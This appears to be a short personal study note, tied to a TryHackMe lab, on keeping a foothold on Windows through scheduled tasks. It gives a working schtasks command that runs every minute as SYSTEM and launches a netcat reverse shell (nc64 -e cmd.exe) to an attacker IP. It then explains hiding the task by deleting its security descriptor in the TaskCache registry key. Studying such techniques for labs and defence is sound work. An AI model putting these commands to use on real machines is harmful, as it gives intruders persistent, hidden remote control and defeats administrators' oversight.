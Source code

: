 # Windows Persistence - Abusing Scheduled Tasks

## Task scheduler

Create a scheduled task:
```powershell
schtasks /create /sc minute /mo 1 /tn <taskname> /tr "c:\tools\nc64 -e cmd.exe $attacker_ip $port" /ru SYSTEM
```
Make it invisible by registery editing, using similar tool as [[Sysinternals-Psexec]]. The security descriptors of all scheduled tasks are stored in:
- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`
To hide the task delete the `SD` value 

```powershell
PsExec64.exe -s -i regedit
```

## References

[THM Windows Persistence Room](https://tryhackme.com/room/windowslocalpersistence)